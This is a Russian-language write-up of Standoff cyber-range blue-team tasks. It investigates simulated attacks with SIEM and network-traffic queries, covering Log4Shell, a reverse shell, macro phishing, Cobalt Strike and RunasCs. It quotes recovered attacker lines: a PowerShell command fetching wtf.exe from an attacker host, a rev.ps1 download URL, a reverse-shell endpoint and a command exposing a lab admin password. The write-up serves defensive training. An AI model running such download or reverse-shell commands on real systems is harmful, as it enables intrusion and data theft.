



Привет! Сегодня разберем практические задания для блюшников с платформы Standoff. Разбор заданий будет для ивента УК Сити (2022).

Подробнее: https://range.standoff365.com/battle/16/industry/57/

# Предисловие
Основная деятельность УК City в Государстве F связана с ЖКХ и государственными услугами. Управляющая компания отвечает за освещение улиц, работу систем видеонаблюдения, рекламных экранов и общественного транспорта. В ее ведении также находятся торговые и бизнес-центры, парковки, МФЦ и информационные общественные табло. УК City ответственна за оснащение квартир жителей IoT-устройствами и подключение к сети городского радиовещания.

Хакеры могут подпортить жизнь горожанам, например оставить их без онлайн-заказов из аптеки, уличного освещения, заблокировать жителей в квартирах и лишить их доступа к государственным услугам.

##### Совет:
Если вы плохо знакомы с языком запросов PDQL для MP SIEM, то советую ознакомиться с официальным справочником: https://help.ptsecurity.com/ru-RU/projects/siem/8.2/help/1505039755
### Файл wtf.exe / Задание 1.1
*Атакующие загрузили на один из узлов инфраструктуры файл wtf.exe.*
*Укажите FQDN узла, на который был загружен файл.*

Поскольку нам известно название файла и факт его появления на узле, построим фильтр:
`object.name = 'wtf.exe' and msgid = 11` , где `object.name` - это название искомого объекта, а `msgid = 11` - событие  журнала sysmon (Создание/перезапись файла)

Выбираем самое раннее событие и получаем нужное имя хоста - comp-0660.city.stf
### Файл wtf.exe / Задание 1.2
*Атакующие загрузили на один из узлов инфраструктуры файл wtf.exe.*
*Приведите содержимое командной строки или скрипта, инициировавшего загрузку файла.*

Из задания мы видим, что, по-прежнему, фигурирует файл wtf.exe. Однако, необходимо учесть, что он не запускается, но упоминается в исполняемой команде, а значит, что важным фактором является использование cmd или powershell.
`event_src.host = "comp-0660.city.stf" and object.process.cmdline contains 'wtf.exe' and (object.process.name = 'cmd.exe' or msgid in [4103,4104])`, где MSGID 4103 - импорт модулей PoSH (конвейер), MSGID 4104 - логирование скрипт-блоков PoSH.

В результате, фильтр выдал нам 9 событий:

Рассмотрим самое старое событие с запуском команды Powershell:


Видим, что в `object.value` содержится несколько объединенных команд.
Выделим нужную и получим верный ответ - iwr -uri http://10.126.10.10:13337/wtf.exe -outfile C:\Windows\Tasks\wtf.exe
### Подмена контента на рекламном видеоэкране / Задание 2.1

*Руководитель отдела информационной безопасности City в бешенстве: несколько часов назад, в момент, когда он докладывал начальству о достижении высокого уровня защищенности городских систем, злоумышленники взломали рекламный экран в центре столицы и включили горожанам неприятные для просмотра ролики.*
*Укажите FQDN атакуемого актива.*

Поскольку в вводных данных кроме времени не было дано никаких подробностей, то можно пойти по аналитическому пути, взяв во внимание то, что злоумышленники воспроизвели подставной видеофайл. Исходя из существующих форматов видеофайлов (.mp4, .avi, .mkv, .mov, .wmv), составим топорный фильтр:
`object.name contains '.mp4' or object.name contains '.avi' or object.name contains '.mkv' or object.name contains '.mov' or object.name contains '.wmv'`

В результате, мы получили 212 событий. Давайте их просмотрим и убедимся, что мы на правильном пути:


Действительно, всё подходит. Обратим внимание на адрес хоста в `event_src.host`, на котором происходит данная активность- 10.126.11.174.
Теперь необходимо найти FQDN данного узла. Поскольку в представленном для работы SIEM нет вкладки "Активы", а группировка по хостам не дала никакого результата, необходимо найти иной способ поиска имени хоста по адресу. Воспользуюсь PT NAD:
```
dst.ip = 10.126.11.174
```


В результате, получили необходимый FQDN - advertising.city.stf
### Подмена контента на рекламном видеоэкране / Задание 2.2
*Укажите HTTP-заголовок веб-приложения, который использовался при атаке на веб-приложение путем эксплуатации уязвимости Log4Shell*

 Нам заведомо известен атакуемый узел из прошлого шага, поэтому мы можем воспользоваться всё тем же NAD для поиска необходимого заголовка. Также мы знаем название атаки, поэтому давайте выполним поиск явно по ней:
`dst.ip = 10.126.11.174  && alert.msg == "ATTACK [PTsecurity] log4j RCE aka Log4Shell TCP attempt (CVE-2021-44228)"`

Зайдем в одно из событий и проверим запрос на наличие специфических заголовков


Таким образом, мы нашли необходимый заголовок - PrivateAT
### Подмена контента на рекламном видеоэкране / Задание 2.3
*Укажите адрес, по которому реверс-шелл устанавливал соединение с атакуемым узлом, и порт в формате x.x.x.x:y.*

Тут уже нужно подумать и выделить артефакты, с помощью которых можно составить корректный фильтр.
Мы знаем адрес атакуемого узла и примерное время атаки. Поскольку при создании реверс-шелла инициатор подключения - это целевой хост, то `src.ip = 10.126.11.174`. Вместе с этим, можно сразу отмести неинтересные для нас порты в виде 80, 443, 53 - `src.port not in [80,443,53] and dst.port not in [80,443,53]`. Нам также известно, что реверс-шелл- это сессия, поэтому в фильтре нам нужно это обозначить явно- `object = "session"`. 
Таким образом, получаем конечный фильтр:
`src.ip = 10.126.11.174 and src.port not in [80,443,53] and dst.port not in [80,443,53] and object = "session"`
Теперь нам необходимо найти адрес и порт злоумышленника, поэтому сделаем группировку по адресу и порту получателя:


Получаем следующую картину:

Остается просмотреть события, которые входят в период выполнения атаки и найти информацию о злоумышленнике

Таким образом, мы смогли найти правильную связку ip:port - 10.126.10.30:10002

В PT NAD активность выглядит следующим образом:

### Подмена контента на рекламном видеоэкране / Задание 2.4
*Укажите название загруженного атакующими видеофайла.*

Исходя из имеющегося киллчейна, который начал обретать смысл, нам известно, что злоумышленник использует reverse-shell. Учитывая этот факт, укажем данный источник в качестве отправителя и получателя - `src.ip = 10.126.10.30 or dst.ip = 10.126.10.30`. Зная, что мы ищем файл, явно обозначим это - `object = "file"` и воспользуемся фильтром из задания 2.1, чтобы сузить круг поиска. В конечном счете, получим такой фильтр:
```
(object.name contains '.mp4' or object.name contains '.avi' or object.name contains '.mkv' or object.name contains '.mov' or object.name contains '.wmv' ) and object = "file" and (src.ip = 10.126.10.30 or dst.ip = 10.126.10.30)
```

Видим 2 события, где фигурирует один и тот же файл с названием hex.mp4
### Поиск вредоносного файла / Задание 3.1
*Ден Дженсен (d_jensen, [d_jensen@hv-logistics.stf](mailto:d_jensen@hv-logistics.stf)) — сотрудник крупного логистического предприятия, молодой и очень любознательный человек. Желая узнать, что за файл с интересным названием пришел ему на почту, он открыл его — и произошло непоправимое: и компьютер Дена стал частью большой атаки на его компанию.*
*Восстановите последовательность событий, чтобы понять, что же все-таки произошло 23 ноября 2022 года (UTC+3).*

*Укажите FQDN рабочей станции, на которой пользователь открыл файл.*

Нам известно, что субъектом был пользователь с логином d_jensen `subject.account.name = "d_jensen"` и что он открыл какой-то неизвестный файл `object = "file" and action = "open"`
В итоге, получим фильтр:
`subject.account.name = "d_jensen" and object = "file" and action = "open"`


Давайте рассмотрим одно из событий подробнее:


Видно, что открывался документ "C:\Attachments\b5dd5ee4f1ad489999965ddb52890e0ecvee.doc". Запомним паттерн названия файла на будущее.

Между тем, везде фигурирует одинаковый хост - comp-2159.hv-logistics.stf
### Поиск вредоносного файла / Задание 3.2
*Укажите адрес, откуда на узел пользователя был загружен первый вредоносный PowerShell-скрипт, в формате URI.*

Из вводных данных, мы имеем следующее:
1. Хост, на котором выполнялись действия злоумышленника- comp-2159.hv-logistics.stf
2. Имя УЗ, которая выступала субъектом- d_jensen
3. Создание(скачивание) скрипта и использование powershell
Составим фильтр на основании этой информации:
`event_src.host = "comp-2159.hv-logistics.stf" and msgid in [4103,4104,4688] and subject.account.name = "d_jensen"`


Получили 199 событий. Рассмотрим самое старое:


Хорошо видно, что выполняется команда, которая скачивает искомый powershell скрипт.
Попробуем пойти по другому пути, явно указав, что мы ищем .ps1 скрипт
`event_src.host = "comp-2159.hv-logistics.stf" and object.name contains ".ps1" and subject.account.name = "d_jensen"`

Здесь уже картина интереснее, поскольку мы видим события с уровнем "medium", что даёт явные намеки на аномальную активность. Рассмотрим события с выполнением скрипта, а не его созданием, т.е. где процесс - это объект, а не субъект:

 
 Значение поля `alert.key` совпадает с найденным ранее событием. Также обратим внимание на родительский процесс excel.exe и вспомним события, которые мы получили в задании 3.1 - запуск excel.exe и открытие документа с макросом. В конечном счете, мы выяснили, что делает макрос и получили правильный ответ к заданию - http://10.126.10.30:11112/rev.ps1
### Поиск вредоносного файла / Задание 3.3
*Найдите хеш-сумму вредоносного PowerShell-скрипта, переданного по сети (см. задание 3.2). Укажите ее в формате MD5.*

Чтобы найти хэш файла, в фильтре можно использовать `object.hash`. Дополнительно укажем имя искомого файла и выполним поиск по всем событиям:
`object.name = "rev.ps1" and object.hash`

Обнаружили передачу необходимого файла на узел 10.126.10.30. Вспоминаем адрес злоумышленника из прошлого задания и понимаем, что именно этот адрес фигурировал при загрузке этого файла, вызванной макросом на узле comp-2159.hv-logistics.stf. Это значит, что мы на верном пути. Заглянем в событие:


Получаем корректный хэш - 7e0babc0b920ec3b75914f205de016b2.
### Поиск вредоносного файла / Задание 3.4
*Мы получили объяснительную от Дена. В ней он утверждает, что не виноват в инциденте и подозрительное письмо открыл днем ранее.*
*Проанализируйте документы, полученные пользователем d_jensen, и найдите файл — источник запуска вредоносного PowerShell-скрипта.*

Нам уже известно, что пользователь d_jensen получил какой-то документ, содержащий макрос. Выше (шаг 3.1.) я говорил, что стоит запомнить файл "C:\Attachments\b5dd5ee4f1ad489999965ddb52890e0ecvee.doc". Давайте составим фильтр, включив в него поиск по вхождению "C:\Attachments":
`event_src.host = "comp-2159.hv-logistics.stf" and object.process.parent.cmdline contains ".doc" and object.process.parent.cmdline contains "C:\Attachments"`


Все события идентичны, за исключением одной детали. Рассмотрим подробнее:


Здесь стоит отметить, что единственное, чем отличаются события- это название документа. Таким образом, мы получили 58 названий документов, что нас не устраивает.
Если вспомнить условие задачи, то можно обратить внимание, что пользователь открывал файл за день до инцидента. Исходя из этого факта, ограничу поиск по предыдущему дню (с учетом разницы во времени) и укажу явный запуск файла:
`event_src.host = "comp-2159.hv-logistics.stf" and object.process.parent.cmdline contains "C:\Attachments" and action = "start"`

Получили 5 событий с разными названиями файлов. Поскольку атак в процессе соревнований было инициировано несколько, то ничего не остается, кроме подбора оставшихся вариантов.


Один из них является правильным ответом - book_withcob.xls
### Поиск вредоносного файла / Задание 3.5
*Укажите полный путь к вредоносному файлу, загруженному в системную папку в результате выполнения полезной нагрузки из задания 3.4.*

В процессе расследования важно помнить о найденных артефактах и зацепках, которые могут помочь в дальнейшем. Поэтому вернемся к заданию 3.2. Напомню, по результатам запроса с фильтром 
`event_src.host = "comp-2159.hv-logistics.stf" and object.name contains ".ps1" and subject.account.name = "d_jensen"`
мы получили событие 


Обратим внимание на содержание `alert.key`. Видно, что скачанный файл переименовывается в qwe.ps1 и помещается в системную папку c:\windows\tasks.
Таким образом, мы нашли полный путь к вредоносному файлу, загруженному в системную папку в результате выполнения полезной нагрузки - C:\Windows\Tasks\qwe.ps1
### Поиск вредоносного файла / Задание 3.6
*Найдите тег атакующих — имя Set-Alias для PowerShell.*

Снова вернемся к заданию 3.2. Используя уже имеющийся фильтр 
`event_src.host = "comp-2159.hv-logistics.stf" and msgid in [4103,4104,4688] and subject.account.name = "d_jensen"`
снова найдем событие, в котором мы уже видели упоминание алиасов:


В результате, получаем правильный ответ - hexensteamthebest

Задание можно также выполнить с использованием следующего фильтра
`object.process.cmdline contains "Set-Alias" and subject.account.name = "d_jensen"`

### Поиск вредоносного файла / Задание 3.7
*Укажите системный процесс, через который атакующие смогли развить атаку после неуспешных попыток использовать загруженную полезную нагрузку.*

Чтобы найти ответ к данному заданию, необходимо вспомнить всё, что было найдено на предыдущих этапах и что мы имеем в условии задачи:
1. Имя пользователя - d_jensen
2. Хост - comp-2159.hv-logistics.stf
3. Получение вредоносного документа с макросами
4. Использование скриптов и команд с помощью cmd и powershell
5. Запуск процессов word, winword, excel
6. Получение файла rev.ps1 (qwe.ps1)
8. Примерные временные рамки активности злоумышленника - 17:30-18:30
9. Изменение вектора атаки с использованием системного процесса

В данном случае, нам больше всего нужно учесть факт использование системного процесса. Эта информация дает нам возможность значительно сузить круг поиска, поскольку мы знаем, что системные процессы находятся в системных папках. Таких папок несколько: ### **C:\Windows\System32**, **C:\Windows\SysWOW64**,  **C:\Windows\WinSxS**

На основании этих данных, ограничим время активности (17:30 - 18:30), составим фильтр и, для более понятного вывода, сгруппируем по `object.process.name`:
`subject.account.name = "d_jensen" and (object.path contains "C:\Windows\System32" or object.path contains "C:\Windows\syswow64" or object.path contains "C:\Windows\Winsxs") and msgid in [4688,1] and object = "process"`

В результате получили 8 процессов, которые нам подходят. Однако, необходимо обеспечить бОльшую точность, поэтому давайте рассуждать дальше.
Мы знаем, что вектор злоумышленника строился на эксплуатации вредоносного документа, что сопровождалось запуском процессов word.exe, winword.exe и excel.exe. А что если новый вектор также строится на использовании этих процессов? Тогда, получается, что эти процессы будут родителями для системного процесса, который мы ищем.
Дополним фильтр, включив их в него:
`subject.account.name = "d_jensen" and (object.path contains "C:\Windows\System32" or object.path contains "C:\Windows\syswow64" or object.path contains "C:\Windows\Winsxs") and msgid in [4688,1] and object = "process" and object.process.parent.name in ["word.exe","winword.exe","excel.exe"]`

Предположения оказались верны и мы получили уже 3 возможных процесса. Как я уже упоминал выше, злоумышленник часто использовал cmd и powershell, поэтому мы их не будем учитывать.
Как итог, получаем необходимый системный процесс - rundll32.exe
### Изменение параметров в системе продажи билетов / Задание 4.1
*Приезд члена совета директоров на ежегодную встречу с управляющим персоналом может стать большой проблемой для нынешнего руководителя филиала компании. Неизвестный атакующий получил доступ к системе бронирования билетов. Ваша задача — выяснить детали взлома.*
*Временной интервал в продуктах защиты информации: 22 ноября 2022, 10:00 — 24 ноября 2022, 18:00 (мск).*
*Укажите название атакуемого актива с системой бронирования билетов.*

Данное и следующее задания, для разнообразия, буду выполнять в PTAF.
Поскольку вводной информации никакой не имеется, придется подходить аналитически. Неплохо было бы составить ключевые слова, которые приходят на ум, когда слышим "система бронирования билетов": price, booking, air, date, gate.
По порядку менял значение в фильтре, попутно ориентируясь на количество событий по тому или иному ключевому слову и остановился на слове "date":

Изучая названия сервисов и запросы к ним, начал действовать методом исключения. В итоге, получил такой фильтр:

Правильным ответом стал сервис с названием - railbook.hv-logistics.stf
### Изменение параметров в системе продажи билетов / Задание 4.2
*"Укажите URI запроса, с помощью которого атакующий вошел в систему.*  
*Пример: /example.php?q=test."*

Просмотрев самую популярную атаку на данный ресурс, SQL-inj, откроем первый попавшийся запрос и посмотрим на путь:

В результате, получили правильный путь - Login.php?f=login
### Утечка конфиденциальных данных / Задание 5.1
*В УК City произошла утечка конфиденциальных данных. Нарушителям удалось загрузить шпионское ПО Cobalt Strike на один из узлов инфраструктуры.*
*Временной интервал в средствах защиты: 22 ноября 2022, 10:00 — 24 ноября 2022, 18:00 (мск).*
*Укажите название атакуемого актива.*

На самом деле, из вводных данных понятно, что использовался фрэймворк Cobalt Strike. Зная, что в PT NAD есть готовая корреляция под этот сценарий атак, набросаю максимально абстрактный фильтр, который также включает в себя часть названия домена инфраструктуры:
`alert.msg ~ "*Cobalt*" and src.dns ~ "*city*"`

Получился целый миллион событий. Чтобы систематизировать информацию, обращусь к дашбордам:


Самый популярный хост является правильным ответом - comp-5117.city.stf


### Небезопасное хранение данных / Задание 7.1
*Укажите имя рабочей станции эйчара, на которой хранится файл с паролем.*

Из предыстории нам известно, что злоумышленнику удалось повысить привилегии от имени УЗ HR'a, воспользовавшись паролем администратора b_rivers_admin. 
Составим фильтр, где УЗ-объектом будет УЗ админа и действием повышение привилегий:
`object.account.name = "b_rivers_admin" and action = "elevate"`

Получили пачку событий 4648 с хоста comp-2159.hv-logistics.stf, где процесс-субъект входа имеет следующий путь: с:\users\d_jensen\documents\runascs_net2.exe
Ответ: comp-2159.hv-logistics.stf


### Небезопасное хранение данных / Задание 7.2
*Приведите пароль учетной записи b_rivers_admin.*

Нам уже известен хост, процесс, имя УЗ-субъекта/объекта. Но как найти пароль? Прежде всего, необходимо разобраться что за тулзу (https://github.com/antonioCoco/RunasCs) использует злоумышленник. 

Видно, что этот инструмент представляет собой улучшенную версию утилиты runas.exe, которая устраняет некоторые ограничения, самое главное из которых- это использование пароля в команде. 

Осталось выполнить поиск по командной строке, использовав всю найденную информацию:

`event_src.host = "comp-2159.hv-logistics.stf" and object.name = "runascs_net2.exe" and subject.account.name = "d_jensen" and object.process.cmdline contains "b_rivers_admin"`

В результате, получаем событие с командной строкой: `RunasCs_net2.exe  B_Rivers_admin -p zY2oWqz2qn3Ne71W "whoami" -d hv-logistics.stf`

Ответ: zY2oWqz2qn3Ne71W


### Небезопасное хранение данных / Задание 7.3
*Укажите имя файла из фишинговой рассылки, открытие которого привело к развитию атаки.*

Вводной информации о письме и его содержании у нас нет, поэтому необходимо рассуждать логически.

У нас есть хост, имя УЗ и факт запуска какого-то файла, в последствии которого атака начала своё развитие.

Обычно, при фишинге используются документы .doc/.docx или таблицы .xls/.xlsx/.xlsm с макросами, поэтому нужно поискать их (период времени лучше расширить на сутки до):

`event_src.host = "comp-2159.hv-logistics.stf" and (object.process.cmdline contains ".doc" or object.process.cmdline contains ".xls") and action = "start" and subject.account.name = "d_jensen"`

Получили множество событий с документами из папки C:\\Attachments, которые открываются двумя способами:  winword.exe и cmd /c start. Теперь, когда мы знаем путь и то, что при запуске этого документа, что-то происходит (является родительской командной строкой, которая вызывает ту или иную активность в результате работы макроса), произведем поиск по object.process.parent.cmdline:

`event_src.host = "comp-2159.hv-logistics.stf" and object.process.parent.cmdline contains "C:\Attachments" and (object.process.parent.cmdline contains ".doc" or object.process.parent.cmdline contains ".xls") and action = "start" and subject.account.name = "d_jensen"`

Сделаем сортировку по object.process.cmdline и отметем события, в которых командная строка содержит такую же команду с запуском файла (все команды с winword.exe и .doc/.docx документами) 

`event_src.host = "comp-2159.hv-logistics.stf" and object.process.parent.cmdline contains "C:\Attachments" and object.process.parent.cmdline not contains ".doc" and object.process.parent.cmdline not contains "winword.exe" and action = "start" and subject.account.name = "d_jensen"`

Получили 4  события с разными .xls файлами. Убираем хэш (32 символа) и получаем чистое название файла. После подбора, получаем правильный ответ.

Ответ: book_withcob.xls

